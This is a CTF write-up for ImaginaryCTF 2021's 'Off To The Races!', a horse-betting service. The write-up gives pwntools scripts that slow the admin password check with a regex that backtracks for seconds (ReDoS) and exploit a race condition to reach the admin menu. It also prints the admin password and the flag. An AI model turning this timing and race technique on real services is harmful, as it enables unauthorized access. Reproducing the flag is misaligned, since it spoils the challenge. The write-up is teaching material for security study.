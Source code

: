 # ImaginaryCTF 2021: Off To The Races!

![date](https://img.shields.io/badge/date-28.07.2021-brightgreen.svg)  ![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg) 
![misc category](https://img.shields.io/badge/category-misc-lightgrey.svg) ![score](https://img.shields.io/badge/score-275-blue.svg)

## Description

They say that gambling leads to regrets, but we'll see. This online portal lets you bet on horse races, and if you can guess the admin password, you can collect all the money people lose, too. Maybe you'll collect enough to buy the flag?

## Attached files

- [races.py](https://imaginaryctf.org/r/D1DB-races.py)

## Summary

To acquire the flag we need to exploit race condition existing in the program, we will be able to use admin's menu while not being admin both of which are needed to buy a flag.

## Flag

``` ictf{regrets_may_be_the_plural_of_regex_but_ive_no_regrets_from_betting_on_a_sure_thing} ```

## Detailed solution

The program keeps track of how much money admin has, it starts at 0 and we need it to be at least 100 to buy the flag. 

It is very easy to do and does not require any exploits. We can simply bet 100 currency on 3 different horses, then login as admin and pick a winner.
This way whichever horse gets selected, admin account will have 100 currency.

We can do this with simple script

```
#!/bin/python

from pwn import *

io = remote('chal.imaginaryctf.org', 42016)

p = log.progress("Status:")

p.status("Placing bets")
io.recvuntil('>>>')
io.sendline('1')                           # place bet

io.recvuntil('bet on?')
io.sendline('A')                           # horse's name

io.recvuntil('to bet?')
io.sendline('100')                         # how much money

io.recvuntil('>>>')
io.sendline('1')

io.recvuntil('bet on?')
io.sendline('B')

io.recvuntil('to bet?')
io.sendline('100')

io.recvuntil('>>>')
io.sendline('1')

io.recvuntil('bet on?')
io.sendline('C')

io.recvuntil('to bet?')
io.sendline('100')


p.status("Logging in as admin")
io.recvuntil('>>>')

io.sendline('2')                           # login as admin
io.recvuntil('logout):')

io.sendline('ju5tnEvEEvErl05E')            # passwd


p.status("Getting money")
io.recvuntil('>>>')
io.sendline('1')                           # pick winner

io.interactive()
```

If we would check the money now we would see, that we really have the 100 currency.

Admin's password is checked using this regex

``` rx = re.compile(r'ju(5)tn((([E3e])(v\4))+\4\5)+rl0\1\4') ```

which would accept different passwords too, but I will simplify it to

``` 'ju5tn' + 'EvEEvE' * N + 'rl05E' ```

Now we need to somehow get into admin's menu while not being an admin.
It can be achieved thanks to a race condition existing when checking the password.

```
def login():
    pwd = input("Enter admin password (empty to logout): ")
    if len(pwd) == 0:
        print("Logging out...")
        admin = 0
        return
    print("Validating...")
    Process(None, checkPass, None, args=(pwd,)).start()
    time.sleep(2)
    
def checkPass(pwd):
    valid = rx.match(pwd)
    if valid:
        print("Login success!")
        print("Redirecting...")
        admin.value = 1
    else:
        print("Login failure!")
        print("Redirecting...")
        admin.value = 0
```

We can see that password is checked on another thread, and thread displaying menus is just waiting 2 seconds to make sure password is already checked. 
We will exploit that by sending a password that takes long time to get verified, but also is wrong. 
This way the main thread has enough time to display admin's menu for us while password checking thread logs us out.
We now have access to admin commands while not being admin.

All of this can be achieved by modifying our script:
```
...
p.status("Getting money")
io.recvuntil('>>>')
io.sendline('1')


p.status('Logging out')
io.recvuntil('>>>')
io.sendline('4')

io.recvuntil('logout):')
io.sendline(
        'ju5tn' +
        'EvEEvE' * 16 +
        'Rl05E')


p.status('Buying flag /o/')
io.recvuntil('Redirecting...')
io.sendline('3')

io.interactive()
```

We need to send ``` EvEEvE ``` to the server 16 times for the password to need 2 seconds to get checked, this number will vary depending on system performance.
To fail password checking we send ``` Rl05E ``` with **capital** R at the end of the password.

Now we just can wait for password checking thread to log us out and acquire the flag.
